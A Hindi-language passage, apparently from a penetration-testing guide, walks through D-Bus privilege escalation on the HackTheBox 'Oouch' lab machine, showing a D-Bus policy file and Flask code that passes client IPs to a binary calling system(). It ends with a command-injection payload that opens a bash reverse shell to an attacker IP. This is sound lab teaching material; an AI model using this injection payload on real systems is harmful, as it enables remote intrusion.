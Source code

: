 ### अधिक

`busctl` के पास और भी विकल्प हैं, [**उन सभी को यहाँ ढूंढें**](https://www.freedesktop.org/software/systemd/man/busctl.html)।

## **भेद्य स्थिति**

उपयोगकर्ता **qtc एचटीबी से "oouch" में** एक **अप्रत्याशित डी-बस कॉन्फ़िग फ़ाइल** खोज सकते हैं जो _/etc/dbus-1/system.d/htb.oouch.Block.conf_ में स्थित है।
```xml
<?xml version="1.0" encoding="UTF-8"?> <!-- -*- XML -*- -->

<!DOCTYPE busconfig PUBLIC
"-//freedesktop//DTD D-BUS Bus Configuration 1.0//EN"
"http://www.freedesktop.org/standards/dbus/1.0/busconfig.dtd">

<busconfig>

<policy user="root">
<allow own="htb.oouch.Block"/>
</policy>

<policy user="www-data">
<allow send_destination="htb.oouch.Block"/>
<allow receive_sender="htb.oouch.Block"/>
</policy>

</busconfig>
```
नोट: पिछले कॉन्फ़िगरेशन से ध्यान दें कि **आपको इस D-BUS संचार के माध्यम से जानकारी भेजने और प्राप्त करने के लिए उपयोगकर्ता `root` या `www-data` होना आवश्यक** है।

उपयोगकर्ता **qtc** डॉकर कंटेनर **aeb4525789d8** के अंदर आपको फ़ाइल _/code/oouch/routes.py_ में कुछ dbus संबंधित कोड मिल सकता है। यह दिलचस्प कोड है:
```python
if primitive_xss.search(form.textfield.data):
bus = dbus.SystemBus()
block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')

client_ip = request.environ.get('REMOTE_ADDR', request.remote_addr)
response = block_iface.Block(client_ip)
bus.close()
return render_template('hacker.html', title='Hacker')
```
जैसा कि आप देख सकते हैं, यह **एक D-Bus इंटरफेस से कनेक्ट कर रहा है** और **"Block" फ़ंक्शन** को "client\_ip" को भेज रहा है।

D-Bus कनेक्शन के दूसरी ओर कुछ C संकलित बाइनरी चल रहा है। यह कोड D-Bus कनेक्शन में **IP पता सुन रहा है और `system` फ़ंक्शन के माध्यम से iptables को कॉल कर रहा है** दिए गए IP पते को ब्लॉक करने के लिए।\
**`system` कोमांड इंजेक्शन के लिए उद्देश्यपूर्ण रूप से वंशावलोकनयोग्य है**, इसलिए निम्नलिखित पेलोड एक रिवर्स शैल बनाएगा: `;bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #`

